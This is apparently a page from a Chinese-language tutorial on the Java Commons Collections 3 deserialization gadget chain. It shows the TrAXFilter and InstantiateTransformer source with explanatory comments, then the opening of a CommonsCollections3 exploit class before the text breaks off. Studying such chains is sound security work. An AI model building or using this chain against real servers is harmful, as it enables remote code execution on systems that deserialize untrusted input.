 ```java
// TrAXFilter的构造方法
// Templates是TemplatesImpl的父类
public TrAXFilter(Templates templates)  throws
        TransformerConfigurationException
    {
        _templates = templates;
        _transformer = (TransformerImpl) templates.newTransformer();
        _transformerHandler = new TransformerHandlerImpl(_transformer);
        _useServicesMechanism = _transformer.useServicesMechnism();
    }
```

```java
// org.apache.commons.collections.functors.InstantiateTransformer实现了Transformer, Serializable接口
// 它对于transform的实现
public Object transform(Object input) {
        try {
            if (input instanceof Class == false) {
                throw new FunctorException(
                    "InstantiateTransformer: Input object was not an instanceof Class, it was a "
                        + (input == null ? "null object" : input.getClass().getName()));
            }
            Constructor con = ((Class) input).getConstructor(iParamTypes);
            return con.newInstance(iArgs);

        } catch (NoSuchMethodException ex) {
            throw new FunctorException("InstantiateTransformer: The constructor must exist and be public ");
        } catch (InstantiationException ex) {
            throw new FunctorException("InstantiateTransformer: InstantiationException", ex);
        } catch (IllegalAccessException ex) {
            throw new FunctorException("InstantiateTransformer: Constructor must be public", ex);
        } catch (InvocationTargetException ex) {
            throw new FunctorException("InstantiateTransformer: Constructor threw an exception", ex);
        }
    }
```

```java
// CC3
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.TransformedMap;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections3 {
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
```